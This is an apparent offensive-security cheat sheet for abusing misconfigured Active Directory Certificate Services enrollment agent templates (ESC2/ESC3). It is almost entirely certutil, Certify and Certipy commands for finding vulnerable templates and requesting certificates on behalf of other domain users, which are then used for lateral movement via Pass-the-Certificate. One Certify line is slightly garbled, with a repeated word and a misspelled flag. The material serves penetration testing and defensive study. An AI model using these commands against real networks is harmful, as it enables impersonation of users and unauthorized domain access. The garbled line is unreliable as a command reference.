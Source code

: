 # ESC2/ESC3 - Misconfigured Enrollment Agent Templates (Use an enrollment agent to request a certificate

## Enumeration

 - certutil -v -dsTemplate

 - certify.exe find [/vulnerable]

 - certipy find -u USER@DOMAIN -p PASSWORD -dc-ip DOMAIN_CONTROLLER

## Exploitation

#### 1) Linux

 - certipy req -u USER@DOMAIN -p PASSWORD -target CA_SERVER -template 'VULNERABLE_TEMPLATE_NAME' -ca CA_NAME

 - certipy req -u USER@DOMAIN -p PASSWORD -target CA_SERVER -template 'VULNERABLE_TEMPLATE_NAME' -ca CA_NAME -on-behalf-of 'DOMAIN\USER' -pfx CERTIFICATE

#### 2) Windows

 - certify.exe request /ca:SERVER\CA_NAME /template:"VULNERABLE_TEMPLATE_NAME"

 - certify.exe request request /ca:SERVER\CA_NAME /template:TEMPLATE /onbehalfof:DOMAIN\USER /enrollmcert:CERT.pfx [/enrollcertpw:CERT_PASSWORD]

## This technique is used to move laterally via Pass-the-Certificate
